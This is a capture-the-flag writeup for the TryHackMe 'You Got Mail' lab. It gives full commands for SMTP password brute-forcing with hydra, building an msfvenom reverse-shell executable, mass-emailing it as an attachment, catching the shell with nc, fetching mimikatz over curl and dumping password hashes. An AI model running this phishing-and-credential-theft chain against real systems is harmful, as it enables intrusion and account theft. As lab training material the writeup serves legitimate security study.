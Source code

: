 ```yaml
---
title: You Got Mail
description: TryHackMe You Got Mail Challenge writeup
author: 
date: 2025-04-16 11:33:00 +0800
categories: [Writeup, TryHackMe]
tags: [writeup]
pin: false
math: true
mermaid: true
image:
  path: ../assets/img/favicon/writeup/thm/YGM/10.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


# Brik Security Assessment - Penetration Test Report

**Target IP:** 10.10.157.174  
**Domain:** brownbrick.co  
**Assessment Type:**  
- Active reconnaissance on IP  
- Passive reconnaissance on domain

# Scenario:
You are a penetration tester who has recently been requested to perform a security assessment for Brik. You are permitted to perform active assessments on 10.10.184.213 and strictly passive reconnaissance on brownbrick.co. The scope includes only the domain and IP provided and does not include other TLDs.

---

## Reconnaissance

### Nmap Scan

Lets look at the open port on the given target ip with the command:
```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.157.174
```
![Desktop View](../assets/img/favicon/writeup/thm/YGM/1.png){: width="972" height="589" }

Result:
- Port 25 open (SMTP)

---

## Web Reconnaissance

### Site Visited
- Now lets look at the website we are given,
[https://brownbrick.co/menu.html](https://brownbrick.co/menu.html)

![Desktop View](../assets/img/favicon/writeup/thm/YGM/2.png){: width="972" height="589" }

Checking the Our Team section at https://brownbrick.co/menu.html, we can find a some of email addresses. Save all the emails in email.txt as shown below:

![Desktop View](../assets/img/favicon/writeup/thm/YGM/3.png){: width="972" height="589" }

For the emails, we can create a custom wordlist from website using cewl as follows:
```bash
cewl --lowercase https://brownbrick.co/ > passwords.txt
```


Using hydra to test these passwords against the email addresses we found, we are able to discover the password for the lhedvig@brownbrick.co email account:
```bash
hydra -L emails.txt -P passwords.txt 10.10.157.174 smtp -s 587 -t 16
```

![Desktop View](../assets/img/favicon/writeup/thm/YGM/5.png){: width="972" height="589" }

with this we are ready to exploit the webpage,

### Reverse Shell access
### Task2: Q1 What is the user flag?

### Step 1: Create Reverse Shell Payload
Now that we have valid credentials, we can use them to send emails to other users.
First, we create a reverse shell executable to use as an attachment with msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.136.147 LPORT=443 -f exe -o shell.exe
```



### Step 2: Send Payload to All Users
Then, using our email list, we can use sendemail to send emails with our executable as an attachment to the other users:

```bash
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.157.174:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```

![Desktop View](../assets/img/favicon/writeup/thm/YGM/6.png){: width="972" height="589" }

### Step 3: Start Listener
Listen to por 443 with following command:

```bash
rlwrap nc -lvnp 443
```
![Desktop View](../assets/img/favicon/writeup/thm/YGM/7.png){: width="972" height="589" }

---


### Result:
- With this, we can see that our executable is executed by one of the users, granting us a shell as wrohit and we can then read the flag located at
```bash
 C:\Users\wrohit\Desktop\flag.txt.
```

---


## Task 2: Q2 Privilege Escalation
### What is the password of the user wrohit?

At this point, since we are a member of the Administrators group, we can simply upload Mimikatz to the machine and use it to dump the hashes from the SAM registry as follows:
```bash
curl http://10.10.136.147/mimikatz.exe -o mimikatz.exe
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

You see the output as shown below:

```bash
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```
We can then use CrackStation to crack the hash and recover the password for the user.

![Desktop View](../assets/img/favicon/writeup/thm/YGM/8.png){: width="972" height="589" }

---

## Q3: What is the password to access the hMailServer Administrator Dashboard?
**Location:**
```bash
C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI
```

**Extracted:**
```ini
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
```

Once again, using CrackStation to crack the hash, we can retrieve the password and complete the challenge.

![Desktop View](../assets/img/favicon/writeup/thm/YGM/9.png){: width="972" height="589" }


---


